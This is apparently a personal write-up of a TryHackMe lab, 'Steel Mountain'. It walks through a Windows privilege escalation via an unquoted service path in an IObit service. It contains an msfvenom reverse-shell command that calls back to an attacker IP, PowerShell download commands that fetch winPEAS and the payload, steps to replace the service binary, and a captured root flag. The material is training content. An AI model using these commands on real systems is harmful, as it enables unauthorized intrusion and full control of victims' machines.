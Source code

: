 ## metasploit

using the powershell script

https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1

upload and execute

![[Pasted image 20210527131114.png]]

and run `Invoke-AllChesks`

![[Pasted image 20210527132801.png]]

#### unquoted service path vulnerability
![[Pasted image 20210527133239.png]]

`msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.17.4.208 LPORT=9001 -f exe -o exploit.exe`

![[Pasted image 20210527133515.png]]

Upload the explolit and replace the original service

```
sc stop AdvancedSystemCareService9
upload /home/sp00f/THM/steelmountain/www/exploit.exe "\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe"

sc start AdvancedSystemCareService9
```

![[Pasted image 20210527134000.png]]

and we got shell as root
![[Pasted image 20210527134157.png]]

![[Pasted image 20210527134207.png]]

root flag == 9af5f314f57607c00fd09803a587db80
![[Pasted image 20210527134312.png]]

## without metasploit
transfer the winpeas binary and run
```powershell
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.17.4.208/winPEASx64.exe','C:\Users\bill\Desktop\winPEASx64.exe')"
```

![[Pasted image 20210527140613.png]]

![[Pasted image 20210527143409.png]]

or 
`powershell -c Get-Service`

![[Pasted image 20210527143618.png]]


```powershell
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.17.4.208/exploit.exe','C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe')"
```

start the service and we got root

![[Pasted image 20210527143903.png]]